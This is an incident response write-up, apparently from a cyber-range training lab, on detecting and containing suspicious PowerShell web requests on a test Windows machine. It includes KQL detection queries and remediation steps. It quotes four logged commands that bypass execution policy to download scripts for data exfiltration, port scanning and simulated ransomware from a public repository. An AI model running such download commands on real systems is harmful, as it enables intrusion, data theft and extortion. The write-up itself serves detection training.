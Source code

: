 # 🔍 Incident Response Analysis: Identifying Suspicious PowerShell Web Requests

![image](https://github.com/user-attachments/assets/2edf7e2d-294f-4ea4-a8a8-11fefded19ad)

## 🕒 Timeline and Findings

### 📌 Alert Rule Creation
An alert rule was created using the following query to detect suspicious PowerShell activity on **windows-target-1**:

```kusto
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe" and InitiatingProcessCommandLine contains "Invoke-WebRequest"
```

---

## 🔍 Detection and Analysis

### 📢 Incident Overview
During the investigation of the **ARJ - PowerShell Suspicious Web Request** incident, it was discovered that PowerShell commands were executed on **windows-target-1**, leading to the download of multiple scripts.

**Incident Breakdown:**
- **Affected Device:** 1 (`windows-target-1`)
- **Affected User:** 1
- **Downloaded Scripts:** 4
- **Execution Method:** PowerShell commands

### 🖥️ Powershell Commands Observed
The following PowerShell commands were executed on the affected machine:

```powershell
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

### 🗣️ User Interaction
The affected user was contacted regarding their activity around the time of the suspicious logs.  
They stated that they attempted to install a **free** piece of software, saw a **black screen** for a few seconds, and then "nothing happened."

---

## 📊 Execution Confirmation

Using **Microsoft Defender for Endpoint (MDE)** and **Sentinel**, it was confirmed that the downloaded scripts were actually executed. The following query was used:

```kusto
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it appears in logs
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); // Add script names
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize TimeRan = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

---

## 🛠️ Reverse Engineering Analysis

The scripts were forwarded to the **malware reverse engineering team** for analysis. Findings:

| Script Name          | Functionality |
|----------------------|--------------|
| `portscan.ps1`      | Scans an IP range for open ports and logs results. |
| `exfiltratedata.ps1`| Generates fake employee data, compresses it, and uploads it to Azure Blob Storage. |
| `eicar.ps1`         | Creates an **EICAR** test file to trigger antivirus detection. |
| `pwncrypt.ps1`      | Encrypts fake company data and drops a ransom note with decryption instructions. |

---

## 🚑 Containment, Eradication, and Recovery

### 🛡️ Immediate Actions Taken
1. **Isolated the affected machine** in **Microsoft Defender for Endpoint (MDE)**.
2. **Ran a full anti-malware scan** on the system.
3. **Verified system integrity** after cleaning and removed isolation.

---

## 📈 Post-Incident Activities

### 📌 Security Enhancements Implemented:
✅ **User Awareness Training**
   - Affected user was enrolled in an **advanced cybersecurity training program**.
   - Upgraded the organization's security awareness training package via **KnowBe4**.
   - Increased training frequency.

✅ **PowerShell Restriction Policy**
   - Implemented a policy restricting **PowerShell execution** for non-essential users.

✅ **Monitoring Improvements**
   - Enhanced monitoring rules to **detect and alert** on PowerShell execution with `Invoke-WebRequest`.

---

## 🎯 Conclusion
The incident was successfully mitigated, and no sensitive company data was compromised.  
However, it highlighted gaps in **user awareness and PowerShell execution policies**, which have now been addressed.

---

📌 **Next Steps**
- Conduct a **red team simulation** to assess the effectiveness of new security controls.
- Continue monitoring for any similar PowerShell-based threats.
- Reinforce **endpoint protection policies** to prevent unauthorized script execution.

---

🔒 **Cybersecurity Team Response Log**  
*Prepared by: Rasheed Jimoh*  
*Date: 25 February, 2025*  
*Organization: RJInnovateHub*  

